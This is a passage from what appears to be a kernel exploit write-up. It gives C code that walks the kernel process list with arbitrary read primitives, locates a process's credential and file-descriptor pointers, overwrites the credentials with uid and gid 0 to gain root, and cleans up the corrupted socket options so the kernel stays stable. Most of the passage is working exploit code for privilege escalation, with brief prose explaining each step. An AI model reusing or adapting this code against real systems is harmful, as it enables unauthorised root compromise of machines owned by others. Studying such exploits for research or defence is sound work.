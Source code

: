 ```c
static int find_proc_cred_and_fd(pid_t pid) {
  uint64_t proc = kread64(kernel_base + ALLPROC_OFFSET);

  while (proc) {
    if (kread32(proc + PROC_PID_OFFSET) == pid) {
      p_ucred = kread64(proc + PROC_UCRED_OFFSET);
      p_fd = kread64(proc + PROC_FD_OFFSET);
      printf("[+] p_ucred: 0x%lx\n", p_ucred);
      printf("[+] p_fd: 0x%lx\n", p_fd);
      return 0;
    }

    proc = kread64(proc + PROC_LIST_OFFSET);
  }

  return -1;
}
```
Above, `p_fd` contains the pointer to the file descriptor tables (i.e. arbitrary file read may now be orchestrated). But even more interestingly, `p_ucred` is where the credentials of the current user are stored. Now `uid 0` is always root. GUID or GID in linux is the group descriptor and to get access to all resources all we need to do is set uid and guid to 0.
```c
static void escalate_privileges(void) {
  char buf[sizeof(struct in6_pktinfo)];

  *(uint32_t *)(buf + 0x00) = 0; // cr_uid
  *(uint32_t *)(buf + 0x04) = 0; // cr_ruid
  *(uint32_t *)(buf + 0x08) = 0; // cr_svuid
  *(uint32_t *)(buf + 0x0c) = 1; // cr_ngroups
  *(uint32_t *)(buf + 0x10) = 0; // cr_rgid

  kwrite(p_ucred + 4, buf);
}

```
### Cleanup

We can just set the crucial pointers of the exploited `sock`'s to 0 so that the kernel does not by mistake use some wrong value and crash. For the other sock's that we sprayed, we can just `free()` them.
```c
static void cleanup(void) {
  uint64_t master_pktopts, overlap_pktopts, victim_pktopts;

  master_pktopts  = find_socket_pktopts(master_sock);
  overlap_pktopts = find_socket_pktopts(overlap_sock);
  victim_pktopts  = find_socket_pktopts(victim_sock);

  kwrite64(master_pktopts  + PKTOPTS_PKTINFO_OFFSET, 0);
  kwrite64(overlap_pktopts + PKTOPTS_RTHDR_OFFSET, 0);
  kwrite64(victim_pktopts  + PKTOPTS_PKTINFO_OFFSET, 0);
}
```
